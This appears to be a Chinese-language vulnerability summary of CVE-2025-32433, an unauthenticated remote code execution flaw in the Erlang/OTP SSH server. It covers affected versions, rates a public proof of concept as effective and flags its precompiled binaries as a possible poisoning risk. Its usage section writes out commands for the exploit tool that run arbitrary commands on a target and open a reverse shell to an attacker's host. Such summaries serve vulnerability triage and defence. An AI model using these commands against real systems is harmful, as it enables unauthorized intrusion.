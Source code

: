 ## CVE-2025-32433 Erlang/OTP SSH RCE

**漏洞编号:** CVE-2025-32433

**漏洞类型:** 远程代码执行 (RCE)

**影响应用:** Erlang/OTP SSH

**危害等级:** 高危，未授权远程代码执行

**影响版本:** OTP-27.3.2 and earlier, OTP-26.2.5.10 and earlier, OTP-25.3.2.19 and earlier

**利用条件:** 目标系统运行存在漏洞版本的Erlang/OTP SSH服务，攻击者需要能够通过网络访问该服务。

**POC 可用性:** 是

**投毒风险:** 10%

## 详情

CVE-2025-32433 是 Erlang/OTP SSH 服务器中的一个严重漏洞，允许未经身份验证的攻击者执行远程代码。该漏洞源于 SSH 协议消息处理中的缺陷，恶意行为者可以利用该缺陷获得对受影响系统的未授权访问，并在没有有效凭据的情况下执行任意命令。

**有效性：**
根据漏洞库信息、搜索结果和提供的漏洞利用代码，可以判定该漏洞的POC代码有效。搜索结果中多个链接指向该漏洞的详细信息和分析，并明确指出该漏洞的严重性。POC代码的README文件也详细描述了漏洞原理、影响版本以及利用方法（包括执行任意命令和反弹shell）。

**投毒风险：**
提供的POC代码本身看起来是合法的漏洞利用程序，用于验证和利用 CVE-2025-32433 漏洞。但是，任何从互联网上下载的代码都存在一定的风险。在分析`README.md`文件时，发现其提供了编译好的二进制文件（`cve-2025-32433.exe` 和 `cve-2025-32433.lnx`）。这些二进制文件可能包含恶意代码，但仅仅查看`README.md`文件是无法判断的。因此，存在一定的投毒风险。 由于没有源代码，二进制文件构成一定的风险，评判为10%。

**利用方式：**
1.  **漏洞检测：** 使用POC代码提供的 `--check` 参数可以检测目标主机是否存在该漏洞。
2.  **命令执行：** 使用 `-c` 或 `--command` 参数可以执行任意命令。例如：`./cve-2025-32433.lnx 127.0.0.1 -c 'ls -la'`。
3.  **反弹 Shell：** 使用 `--shell`，`--lhost` 和 `--lport` 参数可以反弹一个 shell 到攻击者的机器上。例如：`./cve-2025-32433.lnx 127.0.0.1 --shell --lhost 192.168.1.100 --lport 4444`。
利用该漏洞不需要任何身份验证，直接与存在漏洞的SSH服务进行交互即可触发。

**项目地址:** [0x7556/CVE-2025-32433](https://github.com/0x7556/CVE-2025-32433)

**漏洞详情:** [CVE-2025-32433](https://nvd.nist.gov/vuln/detail/CVE-2025-32433)